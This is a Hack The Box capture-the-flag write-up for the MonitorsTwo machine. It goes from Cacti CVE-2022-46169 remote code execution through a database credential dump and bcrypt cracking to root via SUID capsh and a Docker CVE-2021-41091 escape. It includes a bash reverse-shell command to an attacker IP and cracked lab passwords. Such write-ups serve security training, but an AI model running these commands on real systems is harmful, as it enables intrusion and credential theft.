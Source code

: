 ```yaml
---
title: HTB | MonitorsTwo - Write Up
date: 2023-07-9 14:00:00 -500
categories: [HTB, write-ups]
tags: [htb,red-team,ctf]
img_path: /assets/img/monitorstwo
---
```


## NMAP

` nmap -p- -sV -sC 10.10.11.211 `

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-25 14:22 PDT
Nmap scan report for 10.10.11.211
Host is up (0.079s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.17 seconds
```

## Gobuster

```
gobuster dir --url http://10.10.11.211/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,xml 
```

![gobuster-resaults](Pasted image 20230625144349.png)

Nothing too interesting was found, so moving on to see if we can glean any information from cacti site itself.

## Cacti

![cacti](Pasted image 20230625142620.png)

Version of Cacti running is:  1.2.22 

According to the change log there is a CVE that was patched in version 2.2.3 
![change-log](Pasted image 20230625144433.png)

## RCE for Cacti
Write up on the Command execution found on google: [https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/)

CVE POC: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

I was able to download a copy of the payload from the github, and run it on my machine to get a shell open via a netcat reverse tunnel

![copying-over-payload](Pasted image 20230625152056.png)

The bit of the payload that creates the revshell
![](Pasted image 20230625152555.png)

```
python3 cacti_poc.py http://10.10.11.211/ -c "bash -c 'bash -i >& /dev/tcp/10.10.14.7/1337 0>&1'"
```

## Finding the Good stuff

![etc/password](Pasted image 20230625152954.png)

Interesting file in / called entrypoint.sh, chmod +x gives us a command that will connect to the mysql server

![entrypoint.sh](Pasted image 20230625155852.png)

After connecting to the database we are able to query to see what tables are there, some interesting ones are shown bellow.
![msql-query](Pasted image 20230625160618.png)

Using the following msql command we are able to dump all of the table contents from the user_auth table.
```
mysql --host=db --user=root --password=root -e "select * from user_auth" cacti
```

![mysql](Pasted image 20230625160456.png)

Here is the output for the for the SQL command:
```
< --password=root -e "select * from user_auth" cacti
id	username	password	realm	full_name	email_address	must_change_password	password_change	show_tree	show_list	show_preview	graph_settings	login_opts	policy_graphs	policy_trees	policy_hosts	policy_graph_templates	enabled	lastchange	lastlogin	password_history	locked	failed_attempts	lastfail	reset_perms

1	admin	$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC	0	Jamie Thompson	admin@monitorstwo.htb		on	on	on	on	on	2	1	1	1	1	on	-1	-1	-1	00	663348655

3	guest	43e9a4ab75570f5b	0	Guest Account		on	on	on	on	on	3	1	1	1	1	1		-1	-1	-1		0	0	0

4	marcus	$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C	0	Marcus Brune	marcus@monitorstwo.htb			on	on	on	on	1	1	1	1	1	on	-1	-1		on	0	0	2135691668

```

The logins are emails which gives us the FQDN they are using: ` monitorstwo.htb`

## Password Decryption 

admin	
` $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC `

marcus	
` $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C `

Hashes start with `$2y$`  which is Bcrypt (blowfish)

Running hashcat against the hashes in mode 3200 for Bcrypt:
```
hashcat -a 0 -m 3200 2mon-hash.txt /usr/share/wordlists/rockyou.txt 
```

One Hash has a hit:
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:
` funkymonkey`

## User Takeover
`ssh marcus@10.10.11.211`

Marcus ssh:

![you-got-mail](Pasted image 20230625164011.png)

Looks like Marcus has some system mail, wonder if there is anything in there?

![the-mail](Pasted image 20230625164443.png)

This is looking like the next area for attack: `CVE-2021-41091`

Checking the running process shows that Docker containers running int he moby namespace are present:
![](Pasted image 20230709154945.png)

There is an exploit for this [https://github.com/UncleJ4ck/CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Secondary Artical:
[https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/](https://exploit-notes.hdks.org/exploit/container/docker/moby-docker-engine-privesc/)

I downloaded the POC from the GitHub repo and then copied over to the remote machine:

![phython-webserver](Pasted image 20230709160353.png)

![exploit-copied](Pasted image 20230709160420.png)

Running the script will work and it gives us a venerable path:
```
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
``````

![mobi-fail](Pasted image 20230709160533.png)

However, its not able to execute a shell, My guess is that we will need to go back to our remote shell on the Cacti instance and change some settings from there. Since the POC suggested that the /bin/bash of the container needs to have the setuid bit enabled

## Privilege Escalation
Getting back into the Cacti container I was able to download linpeas over to the /tmp directory and execute it

![http-request](Pasted image 20230709161446.png)

Found some interesting files particularly: /sbin/capsh
![linpeas](Pasted image 20230709165556.png)

Looks like we can run it and it has the SUID bit set:

![sbin/capsh](Pasted image 20230709165718.png)

![sbin/capsh-2](Pasted image 20230709165645.png)

We can give ourselves root by using: `/sbin/capsh --gid=0 --uid=0 --`
and then set the SUID bit on /bin/bash with `chmod u+s /bin/bash`

![rev-shel](Pasted image 20230709171813.png)

## We have Root!
Re-ran moby-exp.sh:
![moby](Pasted image 20230709171918.png)

Shell spawned, but exited time to re-connect

![root-1](Pasted image 20230709172038.png)

We have root! Now its time for the Flag!

![root-2](Pasted image 20230709172234.png)

![completed](Pasted image 20230709172323.png)
